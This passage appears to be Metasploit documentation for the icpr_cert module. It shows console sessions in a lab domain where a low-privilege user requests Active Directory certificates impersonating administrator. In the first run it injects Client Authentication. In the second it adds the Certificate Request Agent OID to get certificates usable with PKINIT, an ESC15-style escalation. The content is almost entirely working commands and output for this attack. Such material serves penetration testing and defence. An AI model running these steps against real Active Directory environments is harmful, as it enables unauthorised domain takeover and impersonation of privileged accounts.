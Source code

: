 ```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_UPN administrator@collalabs1.local
ALT_UPN => administrator@collalabs1.local
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_SID S-1-5-21-3402587289-1488798532-3618296993-1000
ALT_SID => S-1-5-21-3402587289-1488798532-3618296993-1000
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: administrator@collalabs1.local
[*] 172.30.239.85:445 - Certificate Policies:
[*] 172.30.239.85:445 -   * 1.3.6.1.5.5.7.3.2 (Client Authentication)
[*] 172.30.239.85:445 - Certificate stored at: /home/normaluser/.msf4/loot/20241009171337_default_172.30.239.85_windows.ad.cs_089081.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Certificates issued using this technique are not directly able to be used for Kerberos authentication via PKINIT.
However, the attack can be modified by adding the Certificate Request Agent OID (1.3.6.1.4.1.311.20.2.1) to issue a
certificate that can issue additional certificates in a manner similar to ESC2 which are compatible with PKINIT.

```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain COLLALABS1
SMBDomain => COLLALABS1
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA collalabs1-SRV-ADDS01-CA
CA => collalabs1-SRV-ADDS01-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC15-Test
CERT_TEMPLATE => ESC15-Test
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ADD_CERT_APP_POLICY 1.3.6.1.4.1.311.20.2.1
ADD_CERT_APP_POLICY => 1.3.6.1.4.1.311.20.2.1
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: administrator@collalabs1.local
[*] 172.30.239.85:445 - Certificate Policies:
[*] 172.30.239.85:445 -   * 1.3.6.1.4.1.311.20.2.1 (Certificate Request Agent)
[*] 172.30.239.85:445 - Certificate stored at: /home/normaluser/.msf4/loot/20241009172714_default_172.30.239.85_windows.ad.cs_659672.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```
